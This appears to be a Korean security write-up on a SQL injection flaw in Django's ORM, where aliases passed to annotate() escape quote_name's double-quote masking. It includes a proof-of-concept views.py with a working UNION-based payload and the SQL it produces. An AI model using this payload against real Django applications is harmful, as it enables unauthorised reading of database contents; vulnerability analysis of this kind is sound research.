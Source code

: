 ```py
def quote_name(self, name):
        if name.startswith('"') and name.endswith('"'):
            return name  # Quoting once is enough.
        return '"%s"' % name
```

quote_name 메서드를 살펴보면, 인수로 전달된 alias 파라미터 값의 시작과 끝 부분에 "로 마스킹 처리하여 반환하는 작업을 진행합니다.

즉, 별다른 필터링 작업이 진행되지 않기 때문에 alias 부분에 SQL Injection 페이로드를 주입한다면, 성공적으로 SQL Injection 공격이 django ORM에서 트리거 될 수 있습니다.

### Exploit

해당 취약점은 django 4.0.3 이후의 버전에서는 동작하지 않습니다.

```py
from django.shortcuts import render
from django.http import HttpResponse
from django.db.models import Count
from django.utils import timezone
from .models import Post

import datetime
import os

# Create your views here.
def index(request):
    posts = [] 
    payload = 'title" FROM "polls_post" UNION SELECT "10000,", sqlite_version(), "content", "published_date", "10" -- '

    pubs = Post.objects.annotate(**{payload: Count("title")})

    for pubs in pubs:
        print(pubs.title)

    return HttpResponse("Hello, world. You're at the polls index.")
```

아래는 간단한 Django의 기본 프로젝트로 생성한 views.py에 작성한 코드입니다.

payload 값에 보면 " 마스킹 처리 부분을 더블 쿼터로 bypass 하고, UNION문을 사용해서 SQL Injection을 발생시킵니다.

annotate 메서드 부분에 인수를 전달할때, 일반적인 방법인 key=value의 형식으로 전달하지 않고 kwargs로 전달하게 된다면, key 값을 원하는 값으로 바꿀 수 있습니다.

결국 최종적으로 완성되어 SQL 쿼리문으로 실행되는 쿼리는 아래와 같을 것 입니다.

```sql
SELECT COUNT("title") AS "title" FROM "polls_post" UNION SELECT "10000,", sqlite_version(), "content", "published_date", "10" --  FROM "polls_post"
```

뒤에 정상적인 쿼리부분은 주석으로 처리되어서 실행되지 않고 무시될 것입니다.

첨부파일에 POC가 동작하는 취약한 도커 환경을 구성하였습니다.
